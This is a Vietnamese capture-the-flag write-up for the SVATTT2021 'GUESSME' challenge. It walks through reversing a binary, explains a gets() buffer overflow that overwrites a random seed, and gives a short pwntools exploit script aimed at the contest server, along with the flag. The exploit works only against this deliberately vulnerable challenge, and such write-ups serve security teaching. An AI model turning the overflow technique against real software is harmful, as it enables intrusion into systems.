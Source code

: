 # GUESSME

## REVERSE FILE
Xem thông số của file:
```sh
guessme_7337bdcf5e89841274190799663b0af6: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, stripped
```
checksec file
```sh
[*] '/mnt/c/Users/n18dc/OneDrive/Desktop/SVATTT2021/Vòng Khởi động/guessme_7337bdcf5e89841274190799663b0af6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
Chương trình sẽ thực thi như sau, đọc từ "/dev/urandom" vào chuỗi (S2 + 30) 1 lần 4 byte.
```sh
 stream = fopen("/dev/urandom", "rb");
  fread(s2 + 30, 1uLL, 4uLL, stream);
```

Nhập từ người dùng
```sh
printf("Guess a number: ");
gets(s2);
```

Sau đó setup giá trị cho bài guess_me, để người chơi đoán.
```sh
memset(v6, 0, sizeof(v6));
  LODWORD(v6[0]) = *(_DWORD *)(s2 + 30);
  for ( i = 1; i <= 0xF; ++i )
    *((_DWORD *)v6 + i) = 0x41C64E6D * *((_DWORD *)v6 + i - 1) + 12345;
  sub_4011F6((__int64)v6);
  v3 = sub_401241();
  sprintf(s, "%08x", v3);
  if ( !strcmp(s, s2) )
  {
    v7 = fopen("flag", "rt");
    if ( v7 )
    {
      memset(s, 0, sizeof(s));
      fread(s, 1uLL, 0x80uLL, v7);
      printf("Flag: %s\n", s);
      fclose(v7);
    }
  }
  else
  {
    puts("Try again");
  }
```
Chỉ cần đoán đúng giá trị thì chúng ta sẽ có flag.

## EXPLOIT

Giá trị biến (s2+30) được nhận giá trị từ "/dev/urandom", mà urandom này sẽ ngẫu nhiên, đưa vào trong các thuật thoán biến đổi --> cho ra 1 giá trị cũng thay đổi.
Chương trình có hàm gets(s2) --> buffer overflow

Mình sẽ dè giá trị của (s2+30) làm cho chương trình sẽ luôn nhận 1 đầu vào nhất định --> cho ra 1 đầu ra nhất định, 1 giá trị nhất định. 

```gdb
 ► 0x401511    call   strcmp@plt                      <strcmp@plt>
        s1: 0x7fffffffde80 ◂— 'd262d4d3'
        s2: 0x405260 ◂— '12312300000000000000000000000000000000000000000000000000000000000000000000000000000'
```

Vậy chỉ cần nhập giá trị `d262d4d3` + "\x00" + "0"*50 để hàm strcmp kiểm tra sẽ chỉ lấy đến \x00, và đè lên phần (s+30) đúng như những gì mình đã tính trước đó.

File exploit
```sh
from pwn import *
# s=process("./guessme_7337bdcf5e89841274190799663b0af6")
s = remote("125.235.240.166",20102)
pause()
payload = "d262d4d3\x00" + "0"*56
s.sendline(payload)
s.interactive()

# ASCIS{just_another_old_school_problem}
```


